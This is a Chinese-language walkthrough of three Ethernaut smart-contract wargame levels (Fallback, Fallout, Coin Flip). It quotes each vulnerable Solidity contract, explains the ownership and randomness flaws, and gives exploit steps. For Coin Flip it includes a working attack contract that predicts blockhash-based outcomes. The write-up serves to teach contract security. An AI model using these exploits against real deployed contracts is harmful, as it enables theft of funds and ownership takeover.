


# Ethernaut靶场刷题记录
    author: 甘赞栩

## 01 FallBack
这道题是比较简单的，合约的逻辑有问题导致出现漏洞<br/>
我们先来了解一下receive和fallback的区别：
>**receive():**
    一个合约只能有一个receive函数，该函数不能有参数和返回值，需设置为external，payable；
**fallback():**
    一个合约只能有一个receive函数，该函数不能有参数和返回值，需设置为external；
    可设置为payable；

当本合约的其他函数不匹配调用，或调用者未提供任何信息，且没有receive函数，fallback函数被触发；
当本合约收到ether但并未被调用任何函数，未接受任何数据，receive函数被触发；

先看代码：
```
pragma solidity ^0.6.0;

import '../SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```
题目中给到的SafeMath的地址已经获取不到了，我直接选择找了老版本的SafeMath源码在我本地拉取下来。或者也可以直接用`import "@openzeppelin/contracts-ethereum-package/contracts/math/SafeMath.sol";`路径代替。<br/>

题目想要我们获得合约的所有权，`owner`再使用`withdraw`提取出来
* 解题思路
    阅读完源码发现此合约的`receive`函数是有明显漏洞的，我们只需要向此函数转发出一笔转账交易即可将`owner`的所有权改为自己
    ```
    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
    ```
    当然，为了达成`receive`中的require限制条件，我们还需要执行一次`contribute()`来将我们的`contributions[msg.sender] > 0`<br/>
    在获得`owner`后，执行`withdraw()`即可通关。

* 解题步骤
    1. 在控制台中调用`contract.contribute({value:1)`在不带单位的情况下默认单位为`wei`
    
    2. 可以使用`contract.address`命令查看合约地址，然后使用metamask给合约地址转一笔账
    
    
    3. 此时`owner`应该已经到了，我们来看一下：
    
    4. 执行`withdraw()`函数进行提款
    
    5. 通关
    

# 02 Fallout
  emmm很白痴的关卡
  先看代码
  ```
  pragma solidity ^0.6.0;

  import '../SafeMath.sol';

  contract Fallout {
    
    using SafeMath for uint256;
    mapping (address => uint) allocations;
    address payable public owner;


    /* constructor */
    function Fal1out() public payable {
      owner = msg.sender;
      allocations[owner] = msg.value;
    }

    modifier onlyOwner {
            require(
                msg.sender == owner,
                "caller is not the owner"
            );
            _;
        }

    function allocate() public payable {
      allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
      require(allocations[allocator] > 0);
      allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
      msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint) {
      return allocations[allocator];
    }
  }
  ```
  题目要求获得合约的所有权。
  我看了这个合约很久，一直没找到可以攻击的地方……直到我看到了
  ```
  /* constructor */
    function Fal1out() public payable {
      owner = msg.sender;
      allocations[owner] = msg.value;
    }
  ```
  仔细看这个构造函数的名字，我们会发现`Fal1out`中间居然有个`1`关键是他还在上面注释了`constructor`就很坑。<br/>
  那既然它不是个构造函数，并且具有构造函数的功能，那我们直接调用这个错误的“构造函数”就可以获得合约的所有权了。

  >构造函数最好用`constructor() public {……}`的写法
  * 解题步骤
    1. 调用`fal1out`函数
    
    2. 可以看到此时我们已经获得了合约的所有权
    
    3. 通关
    

# 03 Coin Flip
这是一个和区块结构有关的漏洞，由于用`blockhash(block.number.sub(1))`的方式计算上一区块的哈希的方式是极容易被攻击利用的。<br/>
先看代码：
```
pragma solidity ^0.6.0;

import '../SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```
这个合约是一个“掷硬币猜正反”的游戏，要求连续猜对10次极为通关。<br/>
先来分析一下合约：
`block.number`可以用来获取当前交易对应block的编号，而这里减1获取的就是前一个block的编号，而`blockhash(id)`可以获取对应id的block的hash值，然后uint256将其转换为16进制对应的数值。其中给的factor就是`2^{256}/2`，所以每次做完除法的结果有一半几率是0，一半是1。
这里补充一下几个知识：
  * 补充
    * **Solidity block对象**
    block.coinbase (address): 当前块的矿工的地址
    block.difficulty (uint):当前块的难度系数
    block.gaslimit (uint):当前块gas的上限
    block.number (uint):当前块编号
    block.blockhash (function(uint) returns (bytes32)):函数，返回指定块的哈希值，已经被内建函数blockhash所代替
    block.timestamp (uint):当前块的时间戳

    <br/>

    * **Revert**
    revert是solidity中的一种错误处理机制，
    而revert一旦触发，会导致当前调用中的所有更改都被还原并将错误数据传递回调用者。
    revert由两种使用形式：
      * revert ：`revert CustomError（arg1， arg2）;`该语句将自定义错误作为不带括号的直接参数
      * revert() ：`revert（）;revert（“description”）;`出于向后兼容的原因，还有一个函数，它使用括号并接受字符串

      <br/>

    * **Revert与Require与Assert**
      * Assert： 可以理解为严厉一点的判断，如果判断失败，将会burn掉你的gas
      * Require: 可以理解为温和一点的判断，就算判断失败，gas会返回给调用者
      * Revert ：revert的用法和throw很像，也会撤回所有的状态转变。但是它有两点不同：
        1.  它允许你返回一个值
        2. 它会把所有剩下的gas退回给caller

    详情参见[solidity参考文档](https://docs.soliditylang.org/en/latest/control-structures.html#revert-statement)
    <br/>

  * 漏洞分析：
    本题的漏洞就出在通过`block.blockhash(block.number - 1)`获取负一高度的区块哈希来生成随机数的方式是极易被攻击利用的。
    >原理是在区块链中，一个区块包含多个交易，我们可以先运行一下上述除法计算的过程获取结果究竟是0还是1，然后再发送对应的结果过去，区块链中块和快之前的间隔大概有10秒，手动去做会有问题，而且不能保证我们计算的合约是否和题目运算调用在同一个block上，因此需要写一个攻击合约完成调用。我们在攻击合约中调用题目中的合约，可以保证两个交易一定被打包在同一个区块上，因此它们获取的`block.number.sub(1)`是一样的。

    其实就是利用了一个区块中可能由多个交易，而我们可以自己创建一个交易，执行与题目中一样的语句后得到的`block.number.sub(1)`是一样的
    <br/>
    
    攻击合约代码如下:
  ```
  pragma solidity ^0.6.0;

  import '../SafeMath.sol';
  import './CoinFlip.sol';

  contract Attack {

    using SafeMath for uint256;
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    address adr = 0xFd288CbD59B3f74A70B10730a076Ad0b59479C56;//被攻击合约地址
    CoinFlip coin = CoinFlip(adr);

    function dosome() public returns (bool) {
      uint256 blockValue = uint256(blockhash(block.number.sub(1)));

      if (lastHash == blockValue) {
        revert();
      }

      lastHash = blockValue;
      uint256 coinFlip = blockValue.div(FACTOR);
      bool side = coinFlip == 1 ? true : false;
      coin.flip(side);
    }
   
  }
  ```
  部署成功后只需要执行10次`dosome`方法即可
  >我试过编写一个函数用一个for循环来控制`dosome()`执行的次数，最终以失败告终，应该是由于循环多了之后造成gas超过了gaslimit的上限。
  解题步骤：
  1. 将我们的攻击合约部署在测试链上
  2. 执行10次`dosome()`函数
  3. 通关
  